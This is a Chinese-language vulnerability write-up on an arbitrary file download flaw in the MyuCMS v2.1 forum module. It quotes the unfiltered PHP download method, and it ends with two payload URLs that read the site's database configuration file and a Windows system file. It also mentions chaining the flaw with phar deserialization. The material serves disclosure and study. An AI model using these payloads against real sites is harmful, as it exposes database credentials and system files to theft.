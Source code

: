 MyuCMS v2.1 前台任意文件下载
============================

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

既然是文件下载，先在整个项目中搜索下 **download**
关键字，尝试看看能不能直接定位到关键代码。

通过搜索定位到 **bbs** 模块下的 **Index** 控制器的 **download** 方法。

[![img](resource/MyuCMSv2.1前台任意文件下载/media/rId24.jpg)](https://pic.downk.cc/item/5e4266e52fb38b8c3c9e7e3d.jpg)

**download** 方法接受三个参数，这三个参数我们是完全可控的，单从
**download** 这个方法来看，无任何参数内容限制，直接将 **\$url** 和
**\$name** 两个参数传递给了 **Http** 类的 **download** 方法来执行下载。

若 **Http-\>download()**
方法中还未对参数内容进行限制，便会造成任意文件下载漏洞。

接下来，我们跟进 **Http-\>download()** 方法。

    static public function download ($filename, $showname='',$content='',$expire=180) {
            if(is_file($filename)) { //判断 $filename 是否为文件
                $length = filesize($filename); // 获取 $filename 的文件大小
            }elseif($content != '') {
                $length = strlen($content);
            }else {
                throw_exception($filename.L('下载文件不存在！')); // 若文件不存在抛出异常
            }
            if(empty($showname)) {
                $showname = $filename; // $showname 为下载后文件的名称。若未设置则与被下载文件同名
            }
            $showname = basename($showname); //获取路径中的文件名部分
            if(!empty($filename)) {
                $type = mime_content_type($filename); //获取文件的MIME类型
            }else{
                $type    =   "application/octet-stream";
            }
            //发送Http Header信息 开始下载
            header("Pragma: public");
            header("Cache-control: max-age=".$expire);
            //header('Cache-Control: no-store, no-cache, must-revalidate');
            header("Expires: " . gmdate("D, d M Y H:i:s",time()+$expire) . "GMT");
            header("Last-Modified: " . gmdate("D, d M Y H:i:s",time()) . "GMT");
            header("Content-Disposition: attachment; filename=".$showname);
            header("Content-Length: ".$length);
            header("Content-type: ".$type);
            header('Content-Encoding: none');
            header("Content-Transfer-Encoding: binary" );
            if($content == '' ) {
                readfile($filename); // 读取文件内容并输出，从而实现下载
            }else {
                echo($content);
            }
            exit();
        }

由如上代码我们可以看出，**Http-\>download()**
方法中同样**未对传入的参数进行内容限制**，只实现了下载的业务逻辑。

此处任意文件下载，结合 phar
反序列化，还可以造成任意文件删除和任意文件写入（仅linux下）。

### Payload

    Payload: http://www.0-sec.org/bbs/index/download?url=application/database.php&name=&local=1

    Payload: http://www.0-sec.org/bbs/index/download?url=c:/windows/win.ini&name=&local=1

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-0

